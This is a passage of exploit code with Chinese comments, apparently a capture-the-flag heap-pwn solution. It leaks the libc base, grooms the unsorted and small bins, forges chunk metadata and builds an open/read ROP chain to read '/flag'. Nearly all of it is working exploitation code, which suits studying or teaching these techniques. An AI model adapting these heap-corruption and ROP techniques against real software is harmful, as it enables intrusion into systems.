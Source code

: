 	#dbg()
	
	free(1)
	show(1)
	libc_base = u64(ru('\x0A').strip('\x0A').ljust(8,'\x00')) - 0x1E4CA0
	lg('libc_base',libc_base)
	
	
	#dbg()
	
	#在unsortedbin里寻找大小为0x300的chunk，分割unsortedbin 里的chunk，拿出0x300，还剩0x100
	add(13,3,'Chunk_13')
	
	
	#dbg()
	
	#在unsortedbin里寻找大小为0x300的chunk，此时unsortedbin中chunk只有0x100大小，0x100的chunk进入smallbin，从top chunk中分配0x300大小的chunk
	add(13,3,'Chunk_13')
	
	#dbg()
	
	#在申请一个0x400大小的chunk，再制造一个0x100的smallbin的chunk
	add(2,4,'Chunk_2')
	#申请一个chunk防止合并
	add(13,4,'Chunk_13')
	
	#dbg()
	
	free(2)
	
	#dbg()
	
	add(13,3,'Chunk_13')
	add(13,3,'Chunk_13')
	
	#dbg()
	
	payload='\x00'*0x300+p64(0)+p64(0x101)+p64(heap_addr+0x37E0)+p64(heap_addr+0x250+0x10+0x800-0x10)
	edit(2,payload)
	
	#dbg()
	
	add(3,2,'Chunk_3')
	lg('heap_addr',heap_addr)
	
	#dbg()
	
	#ORW
	pop_rdi_ret = libc_base + 0x0000000000026542
	pop_rsi_ret = libc_base + 0x0000000000026f9e
	pop_rdx_ret = libc_base + 0x000000000012bda6
	file_name_addr = heap_addr + 0x0000000000004A40 #下一个chunk的mem位置起始位置
	flag_addr = file_name_addr + 0x0000000000000200 #将flag写到file_name_addr + 0x0000000000000200处，防止覆盖掉有用内容
	ROP_chain  = '/flag\x00\x00\x00'
	#open(file_name_addr,0)
	ROP_chain += p64(pop_rdi_ret)
	ROP_chain += p64(file_name_addr)
	ROP_chain += p64(pop_rsi_ret)
	ROP_chain += p64(0)
	ROP_chain += p64(libc_base+libc.symbols['open'])
	#read(3,flag_addr,0x40)
	#Read函数的第一个参数文件描述符从0开始累加，
	#程序进行时内核会自动打开3个文件描述符，0，1，2，分别对应，标准输入、输出和出错，
	#这样在程序中，每打开一个文件，文件描述符值从3开始累加。
	#我们打开了一个file_name_addr文件，文件描述符就变为了3，3就代表了file_name_addr文件
	#read函数第一个参数是3，就是在这个文件里读取数据。
	ROP_chain += p64(pop_rdi_ret)
	ROP_chain += p64(3)
	ROP_chain += p64(pop_rsi_ret)
	ROP_chain += p64(flag_addr)